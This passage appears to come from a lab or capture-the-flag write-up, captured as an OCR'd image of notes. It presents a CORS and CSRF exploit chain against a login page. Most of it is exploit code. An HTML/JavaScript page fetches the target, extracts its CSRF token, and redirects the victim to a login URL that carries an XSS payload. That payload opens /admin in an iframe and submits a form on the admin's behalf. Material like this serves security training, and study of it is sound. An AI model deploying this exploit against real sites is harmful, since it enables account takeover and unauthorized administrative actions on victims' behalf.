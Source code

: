 ```js
            // We already found out that there is a vulnerability in the username field of login page. Here, for CSRF token we match the CSRF token agains response and grab the value of the CSRF token.
            login_path = '/login?username='+encodeURIComponent(xss_vector)+'&password=random&csrf='+text.match(/csrf" value="([^"]+)"/);

            // Below, we change the current of victim
            location = url + login_path;
        }catch(err){
        
        }
    })
    </script>
</html>
```

**paste the below code** - 
```js
<html>
    <script>
    url = 'http://192.168.0.159:8080'

    fetch(url)
    .then(response => response.text())
    .then(text => {
        try{
          xss_vector = '"><iframe src=/admin onload="var f = this.contentWindow.document.forms[0]; if(f.username) f.username.value=\'carlos\',f.submit()">';
            login_path = '/login?username='+encodeURIComponent(xss_vector)+'&password=random&csrf='+text.match(/csrf" value="([^"]+)"/);

            // Below, we change the current of victim
            location = url + login_path;
        }catch(err){
        
        }
    })
    </script>
</html>
```

![[cors37.png]]


